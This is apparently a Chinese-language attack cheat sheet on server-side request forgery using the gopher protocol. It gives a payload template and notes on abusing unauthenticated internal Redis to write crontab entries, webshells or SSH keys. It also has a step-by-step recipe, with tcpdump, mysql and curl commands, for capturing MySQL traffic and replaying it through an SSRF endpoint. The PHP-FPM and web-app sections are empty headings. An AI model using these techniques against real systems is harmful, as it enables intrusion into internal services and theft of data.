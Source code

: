 # ✔️ SSRF

## Gopher协议

### KEY

```bash
http://example.com/?url=gopher://目标服务IP:服务端口/URL编码的指令
```

### 攻击Redis

* Redis运行在内网，端口**6379**，一般是**空口令**
* 未授权访问后可增删改查
* 若当前启动用户是root，则可**利用redis的导出功能**写入：crontab、webshell、SSH公钥









### 攻击MySQL

#### 查User表信息

1. 现在本地创建一个空user表，路径：/pcap/mysql.pcap
2. 使用tcpdump抓包，并将结果写入mysql.pcap文件中
3. 开启抓包后，登录MySQL服务，进行一个查询操作
4. 使用wireshark打开/pcap/mysql.pcap文件，过滤出MySQL，随便选择一个包追踪TCP流
5. 将其格式调整为HEX转储，进行URL编码
6. SSRF攻击：curl "http://目标域名.com:端口/?url=gopher://mysql服务所在IP:3306/此处接上一步的URL编码" | cat

```bash
// Attacker
tcpdump -i lo port 3306 -w /pcap/mysql.pcap

mysql -h 要连接MySQL数据库服务器的主机地址 -u 连接时使用的用户名
use ssrf
select * from user;
exit

curl "http://目标域名.com:端口/?url=gopher://mysql服务所在IP:3306/此处接上一步的URL编码" | cat
```

### PHP-FPM攻击









### 攻击内网中脆弱的WEB应用


